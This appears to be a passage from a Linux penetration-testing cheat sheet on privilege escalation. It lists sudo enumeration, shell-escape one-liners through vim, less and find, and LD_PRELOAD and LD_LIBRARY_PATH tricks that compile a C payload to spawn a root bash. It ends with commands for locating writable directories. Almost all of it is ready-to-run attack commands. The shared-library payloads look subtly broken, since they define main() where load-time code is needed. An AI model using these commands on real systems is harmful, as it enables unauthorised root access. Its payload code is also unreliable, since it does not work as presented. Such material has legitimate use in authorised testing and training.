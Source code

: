 
## sudo Privilege Escalation

### sudo Enumeration
```bash
# Check sudo privileges
sudo -l

# Check sudo version
sudo --version

# Common sudo misconfigurations:
# - NOPASSWD entries
# - Wildcard permissions
# - Commands that allow shell escapes
```

### sudo Exploitation Examples
```bash
# sudo with shell escape commands
sudo vim
:!/bin/bash

sudo less /etc/profile
!/bin/bash

sudo find /etc -name "*.conf" -exec /bin/bash \;

# sudo with environment variables
sudo -E /bin/bash

# sudo with LD_PRELOAD
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/exploit.c
gcc -fPIC -shared -o /tmp/exploit.so /tmp/exploit.c -nostartfiles
sudo LD_PRELOAD=/tmp/exploit.so /bin/bash

# sudo with LD_LIBRARY_PATH
mkdir /tmp/lib
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/lib/exploit.c
gcc -fPIC -shared -o /tmp/lib/libc.so.6 /tmp/lib/exploit.c
sudo LD_LIBRARY_PATH=/tmp/lib /bin/bash
```

---

## Writable Directory Exploitation

### Finding Writable Directories
```bash
# Find world-writable directories
find / -type d -perm -002 2>/dev/null

# Find directories writable by current user
find / -type d -writable 2>/dev/null

# Find directories owned by current user
find / -type d -user $(whoami) 2>/dev/null

# Common locations to check
ls -la /tmp
ls -la /var/tmp
ls -la /dev/shm
ls -la /usr/local/share
```